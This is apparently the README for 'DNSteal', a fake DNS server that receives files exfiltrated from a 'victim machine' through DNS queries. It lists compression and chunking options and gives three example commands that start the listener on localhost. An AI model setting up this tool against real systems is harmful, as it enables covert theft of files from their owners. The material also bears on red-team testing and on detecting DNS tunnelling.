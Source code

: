 # DNS_stealing
DNSteal is a fake DNS server that allows us to extract files from a victim machine through some DNS requests


Below are a couple of different images showing examples of multiple file transfer and single verbose file transfer:

![Alt text](http://i.imgur.com/nJsoAMv.png)

* Support for multiple files
* Gzip compression supported
* Now supports the customisation of subdomains and bytes per subdomain and the length of filename

See help below:

![Alt text](http://i.imgur.com/GT5SV2L.png)

If you do not understand the help, then just use the program with default options!

```bash
python dnsteal.py 127.0.0.1 -z -v
```

This one would send 45 bytes per subdomain, of which there are 4 in the query. 15 bytes reserved for filename at the end.

```bash
python dnsteal.py 127.0.0.1 -z -v -b 45 -s 4 -f 15
```

This one would leave no space for filename.

```bash
python dnsteal.py 127.0.0.1 -z -v -b 63 -s 4 -f 0
```
